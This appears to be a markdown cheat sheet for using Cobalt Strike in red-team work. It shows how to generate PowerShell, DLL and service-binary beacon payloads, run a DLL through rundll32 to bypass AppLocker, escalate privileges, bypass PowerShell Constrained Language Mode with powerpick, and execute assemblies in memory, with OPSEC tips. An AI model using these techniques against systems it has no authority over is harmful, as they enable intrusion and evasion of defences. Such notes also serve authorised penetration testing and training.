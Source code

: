 ### Payloads
#### Create payloads
- Click Payloads --> Select an option or all

#### Powershell payload
- Click Attacks --> Scripted web delivery (S) --> Choose a URI path, listener and select type PowerShell IEX

#### Create dll payload
- Bypasses default applocker configuration
```
C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
link <COMPUTERNAME>
```

#### Create service binary
- Used for privilege escalation with services
- Attacks --> Packages --> Windows Executable (S) and selecting the Service Binary output type.
- TIP:  I recommend the use of TCP beacons bound to localhost only with privilege escalations

#### OPSEC payloads
- Staged payloads are good if your delivery method limits the amount of data you can send. However, they tend to have more indicators compared to stageless. Given the choice, go stageless.
- The use of 64-bit payloads on 64-bit Operating Systems is preferable to using 32-bit payloads on 64-bit Operating Systems.

## Command Execution
#### Execute cmd command
```
run <COMMAND>
```

#### Execute PowerShell command
```
powershell <COMMAND>
```

#### Execute PowerShell command through powerpick
- Bypasses Constrained Language Mode
```
powerpick $ExecutionContext.SessionState.LanguageMode
```

#### Execute assembly in memory
```
execute-assembly <PATH TO EXE>
```

#### Load PowerShell script
```
powershell-import <FILE>
```

